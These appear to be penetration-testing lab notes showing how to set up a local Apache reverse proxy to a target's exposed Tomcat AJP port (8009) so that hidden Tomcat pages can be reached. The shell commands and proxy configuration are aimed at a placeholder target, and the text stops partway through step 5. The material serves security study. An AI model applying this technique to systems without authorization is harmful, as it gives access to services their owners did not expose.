




Exploit: Apache Reverse Proxy & AJP
Configuring the AJP-Proxy in our Apache server can be done as follows:
1. Install the libapache2-mod-jk package
sudo apt install libapache2-mod-jk
2. Enable the module
sudo a2enmod proxy_ajp
sudo a2enmod proxy_http
3 Create the configuration file pointing to the target AJP-Proxy port
export TARGET="<TARGET_IP>"
echo -n """<Proxy *>
Order allow,deny
Allow from all
</Proxy>
ProxyPass / ajp://$TARGET:8009/
ProxyPassReverse / ajp://$TARGET:8009/""" | sudo tee /etc/apache2/sites-available/ajp-proxy.conf
In the above configuration, we are using 8009, which is Tomcat's default port for AJP, and this is how we would use it in a real environment.
But in our example above is 30346
sudo ln -s /etc/apache2/sites-available/ajp-proxy.conf /etc/apache2/sites-enabled/ajp-proxy.conf
4. Apache port
port 80 is used by Apache as its default port, so if there is not any other service on it we can use 127.0.0.1
We can change Apache's default port on "/etc/apache2/ports.conf" to any other port.
 Before start apache2 stop any other service on port 80 otherwise it will give us an error
sudo systemctl start apache2
5. Accessing the "hidden" Tomcat page
 If at point 4 we have changed the apache port to another one
 